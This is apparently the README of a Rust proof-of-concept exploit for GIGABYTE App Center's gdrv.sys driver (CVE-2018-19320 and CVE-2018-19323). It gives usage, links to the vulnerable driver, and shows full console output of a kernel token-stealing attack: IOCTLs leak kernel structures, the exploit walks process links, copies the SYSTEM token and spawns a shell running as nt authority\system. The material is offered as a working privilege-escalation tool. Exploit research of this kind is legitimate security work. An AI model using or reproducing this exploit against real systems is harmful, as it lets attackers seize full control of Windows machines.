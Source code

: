 # CVE-2018-1932X ( Rust Exploit POC) for GIGABYTE APP Center v1.05.21 and earlier

> Just because your target is memory unsafe doesn't mean your exploit has to be!

Vulnerabilities used :
 * [CVE-2018-19320](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-19320) - ring0 memcpy-like functionality
 * [CVE-2018-19323](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-19323) - read and write Machine Specific Registers (MSRs).

Tested on: 
 * 20H1: `Windows 10 Kernel Version 19041 MP (1 procs) Free x64`

## References
* [Vergilius Project: Kernel Structs](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20|%202016/2004%2020H1%20(May%202020%20Update))
* [Gigabyte Patch Announcement](https://www.gigabyte.com/Support/Security/1801)
* [_KPCR Details](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/ntos/amd64_x/kpcr.htm)


## Requirements
* x64 only
* Tested Build #'s above
* Loaded GIGABYTE Driver: [gdrv.sys](driver/gdrv.sys)

## Usage
`.\CVE-2018-1932X.exe`

## Example
```
PS Z:\CVE-2018-1932X\target\debug> .\CVE-2018-1932X.exe
CVE-2019-1932X

Opening Handle to Kernel Driver: \\.\GIO
Acquired Handle: 0xa8
Sending IOCTL: 0xc3502580 with 0x10 bytes of data
  [+] Leaked   _KPCR: ffffe48159d88000
  [*] Address  _KPCRB: ffffe48159d88020
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
  [+] Leaked   _KPRCB: ffffe48159d88180
  [*] Address  _KTHREAD: ffffe48159d88188
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
  [+] Leaked   _KTHREAD: ffffb50b14d16080
  [*] Address  _KPROCESS: ffffb50b14d162a0
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
  [+] Leaked   _KPROCESS: ffffb50b1507f080
  [*] Address  PID: ffffb50b1507f4c0
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
  [+] Leaked   PID: 2092
  [+] Known    PID: 2092
Walking Active Process Links...
  [*] Address  ActiveProcessLinks.Flink: ffffb50b1507f4c8 (PID: 82c)
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
  [+] Leaked   _EPROCESS: fffff8015561e060 (PID: 0)
  [*] Address  ActiveProcessLinks.Flink: fffff8015561e060 (PID: 0)
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
  [+] Leaked   _EPROCESS: ffffb50b100624c8 (PID: 4)
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
  [+] Current Token: ffff9708cac8306e
  [+] System  Token: ffff9708c567b047
Borrowing SYSTEM Token...
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
Sending IOCTL: 0xc3502808 with 0x14 bytes of data
  [+] Current Token: ffff9708c567b047
Spawning Process...
  [+] Spawned SYSTEM Process
Closing Handle to Kernel Driver: \\.\GIO
```
Spawned Powershell:
```
PS C:\> whoami
nt authority\system
```
## Vulnerable Blocks

### Memcpy (IOCTL 0x0C3502808)
![Memcpy Code Blocks](docs/memcpy_blocks.png)
### MSR Manipulation (IOCTL 0x0C3502580)
![MSR Code Blocks](docs/msr_blocks.png)
